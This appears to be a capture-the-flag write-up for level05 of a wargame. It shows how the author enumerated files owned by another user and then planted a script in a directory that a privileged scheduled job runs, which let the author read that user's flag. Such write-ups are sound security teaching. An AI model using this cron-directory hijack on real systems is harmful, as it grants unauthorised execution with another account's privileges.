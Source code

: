 # Write up

No particular file in the landing level05 home folder.
We need some starting point, so we check what files flag05 owns : `find / -user 'flag05' -exec readlink -f {} \; 2> /dev/null | grep -v "proc"`
Which gives us two files :
```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
Which are the same shell script

This script execute all files in the `/opt/openarenaserver` folder with bash

So I try : `echo "getflag" > /opt/openarenaserver/1.sh; sh /usr/sbin/openarenaserver`
But nope :
```
+ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

At this point we can admin that some routine with the rights execute the script every some amount of time
So, we create a new script : `echo "getflag > /tmp/flug" > /opt/openarenaserver/1.sh` and wait
And it's successful, after few seconds, the `/tmp/flug` file contains our flag.
